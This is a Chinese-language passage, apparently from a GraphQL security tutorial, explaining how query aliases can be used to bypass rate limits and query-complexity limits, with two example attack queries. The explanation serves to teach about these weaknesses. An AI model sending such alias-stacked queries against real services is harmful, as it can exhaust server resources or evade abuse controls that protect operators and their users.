 ### 4.1 绕过速率限制

某些 GraphQL 服务器会对查询进行速率限制，以防止滥用。然而，攻击者可以通过使用别名，构造多个相同的查询，但以不同的别名返回结果，从而绕过速率限制。

例如：

```graphql
query {
  user1: user(id: 1) {
    name
  }
  user2: user(id: 1) {
    name
  }
  user3: user(id: 1) {
    name
  }
  # 更多重复查询...
}
```

在这个查询中，攻击者通过使用不同的别名，多次请求相同的 `user(id: 1)` 查询，从而绕过速率限制。

### 4.2 绕过查询复杂度限制

某些 GraphQL 服务器会对查询的复杂度进行限制，以防止过度复杂的查询导致服务器资源耗尽。然而，攻击者可以通过使用别名，构造多个嵌套的查询，从而绕过查询复杂度限制。

例如：

```graphql
query {
  user1: user(id: 1) {
    posts {
      comments {
        author {
          name
        }
      }
    }
  }
  user2: user(id: 2) {
    posts {
      comments {
        author {
          name
        }
      }
    }
  }
  # 更多嵌套查询...
}
```

在这个查询中，攻击者通过使用不同的别名，构造多个嵌套的查询，从而绕过查询复杂度限制。
